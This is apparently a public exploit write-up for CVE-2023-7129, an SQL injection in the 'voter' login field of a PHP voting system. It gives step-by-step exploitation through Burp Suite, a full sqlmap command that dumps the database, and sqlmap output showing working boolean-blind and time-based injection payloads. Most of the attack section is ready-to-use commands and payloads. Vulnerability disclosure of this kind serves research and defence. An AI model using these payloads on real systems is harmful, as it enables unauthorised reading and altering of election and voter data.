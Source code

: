 # CVE-2023-7129_Voting_System-SQL_Injection-2
+ **Exploit Title:** CVE-2023-7129_Voting_System-SQL_Injection-2
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/voting-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/VOTING_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2023-7129

## References: 
+ **CVE-2023-7129:** https://vuldb.com/?id.249132
+ https://www.cve.org/CVERecord?id=CVE-2023-7129
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7129

## Description:
Voting System 1.0 allows SQL Injection via parameter 'voter' in "/votesystem/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the voters login page: "http://localhost/votesystem/"
+ Fill the voter id and password then click 'Sign In' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit. In sqlmap, use 'voter' parameter to dump the database. 
```
sqlmap -r r.txt -p voter --risk 3 --level 5 --threads 1 --random-agent tamper=between, randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: voter (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: voter=11111' OR NOT 1116=1116-- lQWF&password=pass&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: voter=11111' AND (SELECT 4895 FROM (SELECT(SLEEP(5)))tJOZ)-- AnqV&password=pass&login=
---
[18:59:39] [INFO] testing MySQL
[18:59:39] [INFO] confirming MySQL
[18:59:39] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[18:59:39] [INFO] fetching current database
[18:59:39] [INFO] resumed: votesystem
current database: 'votesystem'
```

+ current database: `votesystem`
![2](https://github.com/h4md153v63n/CVEs/assets/5091265/c0550210-c182-4df0-a091-73366fbaa1f2)
